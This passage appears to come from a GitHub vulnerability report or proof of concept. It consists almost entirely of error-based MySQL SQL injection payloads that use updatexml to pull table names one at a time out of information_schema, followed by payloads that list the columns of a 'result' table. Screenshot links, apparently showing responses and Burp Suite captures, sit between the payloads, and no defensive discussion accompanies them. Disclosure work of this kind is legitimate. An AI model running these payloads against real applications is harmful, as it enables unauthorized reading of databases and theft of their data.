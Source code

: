 - Payload table 2:
a' AND updatexml(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1),0x7e),1) AND '1'='1

<img width="974" height="688" alt="image" src="https://github.com/user-attachments/assets/d0267c7b-92d0-4f76-9938-6f49f13b0338" />

- Payload table 3:
a' AND updatexml(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 2,1),0x7e),1) AND '1'='1

<img width="1290" height="683" alt="image" src="https://github.com/user-attachments/assets/835de28a-49ea-48b9-915d-f91c13590979" />

- Payload table 4:
a' AND updatexml(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 3,1),0x7e),1) AND '1'='1

<img width="1357" height="675" alt="image" src="https://github.com/user-attachments/assets/df825170-7ec3-4a09-b217-2bcaf6e2d40c" />

- Payload table 5:
a' AND updatexml(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 4,1),0x7e),1) AND '1'='1

<img width="1303" height="702" alt="image" src="https://github.com/user-attachments/assets/6a116325-cb3f-4b38-9502-dfa59eb25504" />

- Payload table 6:
a' AND updatexml(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 5,1),0x7e),1) AND '1'='1

<img width="1315" height="694" alt="image" src="https://github.com/user-attachments/assets/6ef4cf56-d7c7-42db-b0fd-bdce2752535b" />

- Payload table 7:
a' AND updatexml(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 6,1),0x7e),1) AND '1'='1

<img width="1368" height="666" alt="image" src="https://github.com/user-attachments/assets/2400409d-b7f7-45f6-b140-585867510790" />

- burp:

<img width="1496" height="363" alt="image" src="https://github.com/user-attachments/assets/a8bbdbb6-b2fa-4879-b89e-2270c6af61cb" />

<img width="1491" height="397" alt="image" src="https://github.com/user-attachments/assets/ace6e519-6fcf-45b6-9df6-620ddcff9b97" />



a' AND updatexml(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='result' LIMIT 0,1),0x7e),1) AND '1'='1
<img width="1095" height="712" alt="image" src="https://github.com/user-attachments/assets/fcd7a3d3-9369-41f2-a322-54e1ce45bf17" />



a' AND updatexml(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='result' LIMIT 1,1),0x7e),1) AND '1'='1
<img width="1359" height="709" alt="image" src="https://github.com/user-attachments/assets/bce09fc3-51b6-4000-b1af-995b450f7bb6" />

